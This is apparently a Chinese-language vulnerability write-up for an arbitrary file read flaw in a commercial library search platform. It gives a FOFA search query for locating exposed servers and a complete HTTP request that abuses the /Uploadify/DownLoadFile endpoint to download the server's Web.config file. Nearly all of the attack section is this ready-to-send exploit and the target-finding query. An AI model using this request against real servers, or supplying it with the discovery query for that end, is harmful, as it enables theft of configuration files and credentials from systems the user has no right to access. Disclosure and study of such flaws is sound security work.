


河北兴图软件科技有限公司基于互联网+图书馆全新的理念自主研发了一系列网页版图书馆集群管理系统，正式推出基础版、标准版、增强版和专业版等版本，适合各类型图书馆需求。图书检索平台存在任意文件读取漏洞

# 二、影响版本
+ 图书检索平台

# 三、资产测绘
+ fofa`body="Images/public/yes.png"`
+ 特征



# 四、漏洞复现
```java
GET /Uploadify/DownLoadFile?url=/Web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```



